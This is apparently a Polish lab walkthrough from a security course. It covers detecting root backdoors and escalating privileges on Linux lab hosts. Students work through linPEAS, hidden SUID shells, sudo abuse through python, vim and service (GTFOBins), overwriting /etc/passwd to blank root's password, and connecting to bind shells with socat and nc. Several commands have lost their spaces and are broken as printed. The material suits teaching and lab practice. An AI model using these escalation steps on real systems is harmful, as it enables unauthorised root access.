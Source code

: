 # Eskalacja Uprawień
GTFOBins (https://gtfobins.github.io)  to baza danych narzędzi systemowych na Unix/Linux, które mogą być
wykorzystane do eskalacji uprawnień, omijania zabezpieczeń lub wykonywania
nieautoryzowanych działań.

## Automated enumeration tools
`linPEAS` : https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS

## Ćwiczenia
Upload linPEAS:
```
Student (Kali Linux):
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
scp linpeas.sh student@192.168.100.7:/home/student
```
Run linPEAS:
```
student@backdoor-detection:
bash linpeas.sh
```
Backdoor 0 - Baseline:
```
ssh system0@192.168.100.7-p 2200 #hasło: pjatk
su #hasło: toor, podane w wiadomości po zalogowaniu
/root/solve
```
Backdoor 1 - SUID:
Przykładem popularnej techniki ukrywania root backdoora w systemie jest ukrywanie pliku
binarnego powłoki z ustawionym bitem SUID w jakimś miejscu. Pierwsza seria wyzwań
skupi się na wykrywaniu takich plików.
Przykładowy plik binarny z SUID znajduje się w katalogu domowym. Możesz uruchomić
polecenie 'ls-l', aby sprawdzić, czy bit SUID jest ustawiony (chmod u+s). Opcjonalnie
możesz uruchomić skrypt linpeas.sh, aby sprawdzić, czy podejrzany plik jest wykrywany.
```
ssh system1@192.168.100.7-p 2201
ls-l
./backdoor
/root/solve
```
Backdoor 2 – ukryty SUID:
```
ssh system2@192.168.100.7-p 2202

find / -type f -perm /6000 2>/dev/null
/usr/sbin/nothing
/root/solve
```
albo
`find / -type f -perm /4000 -exec ls -l {} \; 2>/dev/null`
Backdoor 3 – Shell SUID:
 ```
ssh system3@192.168.100.7-p 2203
find / -type f -perm /6000 2>/dev/null
bash -p #bash bez parametru -p ignoruje SUID i cofa wyższe uprawnienia!
id
/root/solve
 ```
albo:
`find / -type f -perm /4000 -exec ls -l {} \; 2>/dev/null`
Backdoor 4 – podmieniony SUID:
```
find / -type f -perm /6000 -exec sha1sum {} \; 2>/dev/null
#uruchom tę komendę również na system0 i porównaj wyniki
/usr/lib/openssh/ssh-keysign
/root/solve
```
Backdoor 5 – Sudo:
```
ssh system5@192.168.100.7-p 2205
sudo -l
sudo /usr/bin/python3 -c "import os;os.system('/root/solve')"
```
Backdoor 6 – GTFOBins:
```
ssh system6@192.168.100.7-p 2206
sudo -l
#https://gtfobins.github.io/gtfobins/vim/#sudo
sudo vim
:!bash
/root/solve
```
Backdoor 7 – Passwd:
```
ssh system7@192.168.100.7-p 2207
cat /etc/passwd | grep root #root nie ma hasła!
su
/root/solve
```
Backdoor 8 – All in One:
```
ssh system8@192.168.100.7-p 2208
sudo -l
cp /etc/passwd .
sed-i s/root:x/root:/ ./passwd
sudo curl file:///home/system8/passwd -o /etc/passwd
su
/root/solve
```
Backdoor 9 – Bind Shell:
```
ssh system9@192.168.100.7-p 2209
ss -tlpn
ps aux
socat FILE:`tty`,raw,echo=0 TCP:127.0.0.1:12345
/root/solve
```
___
## Ćwiczenia pentest
Załadowanie Nmap:
```
Student (Kali Linux):
wget https://github.com/opsec-infosec/nmap-static-binaries/releases/download/v2/nmap-x64.tar.gz
scp nmap-x64.tar.gz student@192.168.100.7:/home/student
student@backdoor-detection:
tar zxvf nmap-x64.tar.gz
```
Skan Nmap:
```
student@backdoor-detection:
./nmap-p--n-Pn-sV-vv 192.168.200.57
```
Bind Shell:
Celem zadania jest połączenie się i detekcja tylnej furtki typu bind shell na hoście
192.168.200.57:
Zwróć uwagę, że nmap oznaczył port 8080 jako „http-proxy?” bez wykrytej wersji,
a na końcu raportu widać shell prompt wskazujący na bind shell!
```
student@backdoor-detection:
nc 192.168.200.57 8080
```
linPEAS upload 1:
```
student@backdoor-detection:
python3 -m http.server 1234

admin@192.168.200.57:
wget http://192.168.200.7/linpeas.sh
```
Flaga Roota:
Zauważ, że linPEAS wykrył możliwość uruchomienia polecenia service za pomocą
sudo! Jeżeli nie wiesz jak wykorzystać to polecenie do eskalacji uprawnień,
pamiętaj o dokumentacji na stronie GFTOBins!
https://gtfobins.github.io/gtfobins/service/#sudo

```
admin@192.168.200.57:
sudo -l
sudo service ../../bin/bash
id
cat /root/root.txt
```
Ja tut tylko zrobiłem `su`